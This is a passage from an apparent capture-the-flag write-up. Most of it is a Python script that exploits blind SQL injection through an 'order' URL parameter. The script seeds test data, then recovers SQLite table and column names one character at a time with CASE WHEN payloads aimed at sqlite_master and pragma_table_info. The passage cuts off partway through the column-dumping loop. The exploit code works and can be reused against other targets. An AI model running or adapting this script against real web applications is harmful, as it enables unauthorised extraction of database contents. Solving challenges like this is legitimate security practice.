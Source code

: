 ### Script
While this script could be improved to avoid duplicate code. I left it as is, to show the different steps more clearly. I could hardcode the table we needed but I prefer to write scripts that solve the challenge standalone.

```python
import requests
import sys
import string

url = sys.argv[1]
dictionary = string.printable

# add test data
headers = {'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0', 'Content-Type': 'application/x-www-form-urlencoded'}
data = ['a', 'b', 'c']
# making sure there is a different order for order by data
day = 4
print('### ADDING TEST DATA ###')
for d in data:
    response = requests.post(url + '/new', headers=headers, data=f'title={d}&date=0{day}%2F01%2F2023')
    day = day - 1
    print(f'title: {d} - date: 0{day}/01/2023')

response = requests.get(url + '/?order=title')
correct = response.text

# find the table and column names
print('')
print('### DUMPING TABLES ###')
found_tables = ''
count = 0
while count < len(dictionary):
    for char in dictionary:
        count = count + 1
        payload = f'(CASE WHEN (SELECT (SUBSTRING(GROUP_CONCAT(tbl_name),1,{len(found_tables)+1})) from sqlite_master WHERE type=\"table\" and tbl_name NOT like \"sqlite_%\") = \"{found_tables + char}\" then title else date end) ASC'
        response = requests.get(url + f'/?order={payload}')
        if response.text == correct:
            found_tables += char
            count = 0
tables = found_tables.split(',')
print(tables)

# find columns of tables
print('')
print('### DUMPING COLUMNS ###')
table_columns = {}
for table in tables:
    count = 0
    found_columns = ''
    table_columns[table] = []
    while count < len(dictionary):
        for char in dictionary:
            count = count + 1
            payload = f'(CASE WHEN (SELECT (SUBSTRING(GROUP_CONCAT(name),1,{len(found_columns)+1})) from pragma_table_info(\"{table}\")) = \"{found_columns + char}\" then title else date end) ASC'
            response = requests.get(url + f'/?order={payload}')
            if response.text == correct:
                found_columns += char
```